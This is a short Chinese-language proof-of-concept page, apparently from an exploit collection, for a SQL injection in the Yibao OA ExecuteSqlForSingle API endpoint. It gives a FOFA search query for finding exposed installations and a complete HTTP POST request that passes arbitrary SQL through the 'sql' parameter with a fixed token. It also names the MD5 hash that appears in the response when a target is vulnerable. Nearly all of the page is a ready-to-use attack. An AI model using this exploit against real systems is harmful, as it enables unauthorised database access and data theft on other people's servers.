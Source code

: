 # 易宝OA ExecuteSqlForSingle SQL注入漏洞

## 易宝OA ExecuteSqlForSingle SQL注入漏洞

## fofa
```
"顶讯科技"
```

## poc
```
POST /api/system/ExecuteSqlForSingle HTTP/1.1
Host: IP:PORT
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Length: 103

token=zxh&sql=select substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)&strParameters
```
发送poc 在返回包中存在 `e10adc3949ba59abbe56e057f20f883e` 字符为存在漏洞


